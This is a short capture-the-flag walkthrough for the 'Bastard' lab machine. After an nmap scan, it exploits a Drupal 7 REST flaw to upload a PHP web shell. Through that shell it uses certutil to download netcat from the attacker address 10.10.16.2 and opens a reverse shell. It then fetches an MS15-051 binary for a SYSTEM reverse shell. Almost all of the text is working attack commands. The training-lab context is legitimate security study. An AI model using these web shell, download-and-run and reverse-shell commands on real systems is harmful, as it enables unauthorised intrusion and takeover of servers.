 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Bastard
# 14/4/2023
10.10.10.9

----------------------------------------------------
# nmap
----------------------------------------------------
```
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
```
----------------------------------------------------
# exploitaion
---------------------------------------------------
```
port 80 runnning drupal 7
└─$ searchsploit -m php/webapps/41564.php
apt install php-curl

I’ll update the script:

$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'shub.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
=>php 41564.php
curl http://10.10.10.9/shub.php?cmd=whoami
curl http://10.10.10.9/shub.php?cmd=certutil -urlcache -split -f http://10.10.16.2/nc64.exe
curl http://10.10.10.9/shub.php?cmd=nc64.exe -e cmd 10.10.16.2 1234
got shell
```
---------------------------------------------------
# priv esc
---------------------------------------------------
```
10.10.10.9/shub.php?cmd=certutil -urlcache -split -f http://10.10.16.2/ms15-051x64.exe
ms15-051x64.exe whoami
└─$ rlwrap nc -lvnp 8081 
ms15-051x64.exe "whoami"
└─$ rlwrap nc -lvnp 8081 
ms15-051x64.exe "nc64.exe -e cmd 10.10.16.2 8081"
```
